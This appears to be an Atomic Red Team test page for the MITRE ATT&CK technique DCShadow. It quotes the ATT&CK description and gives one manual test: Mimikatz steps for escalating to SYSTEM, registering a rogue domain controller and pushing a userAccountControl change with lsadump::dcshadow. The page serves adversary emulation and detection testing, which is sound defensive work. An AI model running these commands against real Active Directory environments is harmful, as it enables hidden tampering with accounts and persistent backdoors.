# T1207 - DCShadow
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1207)
<blockquote>DCShadow is a method of manipulating Active Directory (AD) data, including objects and schemas, by registering (or reusing an inactive registration) and simulating the behavior of a Domain Controller (DC). (Citation: DCShadow Blog) (Citation: BlueHat DCShadow Jan 2018) Once registered, a rogue DC may be able to inject and replicate changes into AD infrastructure for any domain object, including credentials and keys.

Registering a rogue DC involves creating a new server and nTDSDSA objects in the Configuration partition of the AD schema, which requires Administrator privileges (either Domain or local to the DC) or the KRBTGT hash. (Citation: Adsecurity Mimikatz Guide)

This technique may bypass system logging and security monitors such as security information and event management (SIEM) products (since actions taken on a rogue DC may not be reported to these sensors). (Citation: DCShadow Blog) The technique may also be used to alter and delete replication and other associated metadata to obstruct forensic analysis. Adversaries may also utilize this technique to perform [SID-History Injection](https://attack.mitre.org/techniques/T1178) and/or manipulate AD objects (such as accounts, access control lists, schemas) to establish backdoors for Persistence. (Citation: DCShadow Blog) (Citation: BlueHat DCShadow Jan 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCShadow - Mimikatz](#atomic-test-1---dcshadow---mimikatz)


<br/>

## Atomic Test #1 - DCShadow - Mimikatz
Utilize Mimikatz DCShadow method to simulate behavior of a Domain Controller

[DCShadow](https://www.dcshadow.com/)
[Additional Reference](http://www.labofapenetrationtester.com/2018/04/dcshadow.html)

**Supported Platforms:** Windows


#### Run it with these steps!
1. Start Mimikatz and use !processtoken (and not token::elevate - as it elevates a thread) to escalate to SYSTEM.
2. Start another mimikatz with DA privileges. This is the instance which registers a DC and is used to "push" the attributes.
3. lsadump::dcshadow /object:ops-user19$ /attribute:userAccountControl /value:532480
4. lsadump::dcshadow /push


<br/>

